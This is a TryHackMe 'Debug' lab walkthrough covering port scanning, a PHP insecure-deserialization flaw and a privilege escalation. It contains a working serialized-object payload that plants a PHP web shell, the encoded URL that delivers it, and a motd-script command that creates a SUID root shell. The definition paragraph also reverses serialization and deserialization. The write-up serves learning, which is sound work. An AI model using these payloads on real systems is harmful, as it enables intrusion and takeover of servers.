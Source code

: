 --------------------

### TRYHACKME
### Lab: Debug:

--------------------

![image](https://github.com/user-attachments/assets/7a87a1ed-8d4c-43fd-a5f9-0a391f20067c)


### Recon

- Rustscan's output

      ❯ rustscan -a 10.10.201.128 -- -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      Nmap? More like slowmap.🐢
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.201.128:22
      Open 10.10.201.128:80
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")                                                                                        
                                                                                                                                                       
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-17 16:03 EDT                                                                           
      NSE: Loaded 156 scripts for scanning.                                                                                                            
      NSE: Script Pre-scanning.                                                                                                                        
      NSE: Starting runlevel 1 (of 3) scan.                                                                                                            
      Initiating NSE at 16:03                                                                                                                          
      Completed NSE at 16:03, 0.00s elapsed                                                                                                            
      NSE: Starting runlevel 2 (of 3) scan.                                                                                                            
      Initiating NSE at 16:03                                                                                                                          
      Completed NSE at 16:03, 0.00s elapsed                                                                                                            
      NSE: Starting runlevel 3 (of 3) scan.                                                                                                            
      Initiating NSE at 16:03                                                                                                                          
      Completed NSE at 16:03, 0.00s elapsed                                                                                                            
      Initiating Ping Scan at 16:03                                                                                                                    
      Scanning 10.10.201.128 [2 ports]                                                                                                                 
      Completed Ping Scan at 16:03, 0.15s elapsed (1 total hosts)                                                                                      
      Initiating Parallel DNS resolution of 1 host. at 16:03                                                                                           
      Completed Parallel DNS resolution of 1 host. at 16:03, 0.02s elapsed
      DNS resolution of 1 IPs took 0.06s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 16:03
      Scanning 10.10.201.128 [2 ports]
      Discovered open port 22/tcp on 10.10.201.128
      Discovered open port 80/tcp on 10.10.201.128
      Completed Connect Scan at 16:03, 0.18s elapsed (2 total ports)
      Initiating Service scan at 16:03
      Scanning 2 services on 10.10.201.128
      Completed Service scan at 16:03, 6.82s elapsed (2 services on 1 host)
      NSE: Script scanning 10.10.201.128.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 16:03
      Completed NSE at 16:04, 9.48s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 16:04
      Completed NSE at 16:04, 1.02s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 16:04
      Completed NSE at 16:04, 0.00s elapsed
      Nmap scan report for 10.10.201.128
      Host is up, received syn-ack (0.16s latency).
      Scanned at 2024-08-17 16:03:47 EDT for 18s
      
      PORT   STATE SERVICE REASON  VERSION
      22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 44:ee:1e:ba:07:2a:54:69:ff:11:e3:49:d7:db:a9:01 (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDar9Wvsxi0NTtlrjfNnap7o6OD9e/Eug2nZF18xx17tNZC/iVn5eByde27ZzR4Gf10FwleJzW5B7ieEThO3Ry5/kMZYbobY2nI8F3s20R8+sb6IdWDL4NIkFPqsDudH3LORxECx0DtwNdqgMgqeh/fCys1BzU2v2MvP5alraQmX81h1AMDQPTo9nDHEJ6bc4Tt5NyoMZZSUXDfJRutsmt969AROoyDsoJOrkwdRUmYHrPqA5fvLtWsWXHYKGsWOPZSe0HIq4wUthMf65RQynFQRwErrJlQmOIKjMV9XkmWQ8c/DqA1h7xKtbfeUYa9nEfhO4HoSkwS0lCErj+l9p8h
      |   256 8b:2a:8f:d8:40:95:33:d5:fa:7a:40:6a:7f:29:e4:03 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBA7IA5s8W9jhxGAF1s4Q4BNSu1A52E+rSyFGBYdecgcJJ/sNZ3uL6sjZEsAfJG83m22c0HgoePkuWrkdK2oRnbs=
      |   256 65:59:e4:40:2a:c2:d7:05:77:b3:af:60:da:cd:fc:67 (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGXyfw0mC4ho9k8bd+n0BpaYrda6qT2eI1pi8TBYXKMb
      80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
      |_http-title: Apache2 Ubuntu Default Page: It works
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      | http-methods: 
      |_  Supported Methods: GET HEAD POST OPTIONS
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- FFUF's output

![image](https://github.com/user-attachments/assets/1fa2b2c5-0673-4efb-9a8d-1ac3ee691861)

- Route `/backup` reveals the backup source code files of the site and focus will be on finding vulnerabilities in `index.php.bak`

![image](https://github.com/user-attachments/assets/2c6de75a-dbe1-4217-b4ee-e6cc3209d5ad)


### CODE REVIEW OF index.php
### Main vulnerability: Insecure Deserialization in function `unserialze()`
  
  Deserialization covers conversion of an object into bytes.Serialization  converts bytes into an object.These functions are carried out by some functions and if not properly handled might lead to remote code execution or other critical vulnerabilitiese.g`pickle.dumps()[python],yaml.loads()[python],unserialize()[php]`.

- Index.php accept a get parameter `debug` which is then unserialized by the `unserialize()` function

      $debug = $_GET['debug'] ?? '';
      $messageDebug = unserialize($debug);

- `Unserialize()` is vulnerable to insecure deserialization which can be used to gain remote code execution as explained in this [site](https://www.invicti.com/blog/web-security/untrusted-data-unserialize-php/)

-  Abusing the unserialize function, we can access class `FormSubmit` which requires variables `form_file` and `message`.This class later runs the `__destruct` magic object to write the value of message to the form_file using the `file_puts_contents()` function.

            class FormSubmit {
            
            public $form_file = 'message.txt';
            public $message = '';
            
            public function SaveMessage() {
            
            $NameArea = $_GET['name']; 
            $EmailArea = $_GET['email'];
            $TextArea = $_GET['comments'];
            
            	$this-> message = "Message From : " . $NameArea . " || From Email : " . $EmailArea . " || Comment : " . $TextArea . "\n";
            
            }
            
            public function __destruct() {
            
            file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
            echo 'Your submission has been successfully saved!';
            
            }

### Exploit

- Exploit:

         O:10:"FormSubmit":2:{s:9:"form_file";s:9:"shell.php";s:7:"message";s:35:"<?php echo system($_GET['cmd']); ?>";}

- This exploit will call class `FormSubmit` and write a  php web shell code to shell.php in the current directory.
- Running it

      http://<ip>/index.php?debug=O:10:%22FormSubmit%22:2:{s:9:%22form_file%22;s:9:%22shell.php%22;s:7:%22message%22;s:35:%22%3C?php%20echo%20system($_GET[%27cmd%27]);%20?%3E%22;}

- Our web shell is ready

![image](https://github.com/user-attachments/assets/06daccd3-9901-4409-a667-a2931e43f731)


### Initial Foothold

- Shell as www-data:

![image](https://github.com/user-attachments/assets/052ae04f-6d1b-43f4-bdf1-f340ef67a9aa)

- Running `linpeas.sh` privesc enumeration script  reveals user `james` hash stored in `.htpasswd`

![image](https://github.com/user-attachments/assets/d6e1645e-bbbf-4269-91d3-2b6267aa68e2)

- Cracking the shadow hash with John

![image](https://github.com/user-attachments/assets/3150b002-d493-41a1-83bc-cc0d28c63089)

- SSH access

![image](https://github.com/user-attachments/assets/4440561e-a28a-4ffb-9f4b-0a15e05815d9)

### PRIVESC with update-motd

- An hint in  txt file reveals that we can modify ssh motd `message of the day` files.

![image](https://github.com/user-attachments/assets/287235ea-454f-4631-9eb3-82365bacf793)

- I learnt that `/etc/update-motd.d/` contains such files and I got an exploitation idea from this [site](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/update-motd-privilege-escalation/).

      echo "cp /bin/bash /home/<username>/bash && chmod u+s /home/<username>/bash" >> /etc/update-motd.d/00-header
      exit
      ssh again
      ./bash -p

- Exploiting the 00-header file

![image](https://github.com/user-attachments/assets/6f9849fe-3709-49e5-9067-5a4d1229ed01)

- Root
  
![image](https://github.com/user-attachments/assets/ae599468-0fb9-4760-abae-a34992083c3c)


### THANKS FOR READING!!!!!!!!

----------------

### REFERENCES:

- [SSH-MOTD'S PRIVESC](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/update-motd-privilege-escalation/)
- [Insecure Deserialization](https://www.invicti.com/blog/web-security/untrusted-data-unserialize-php/)
- [Php Object injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/PHP.md)








  
  


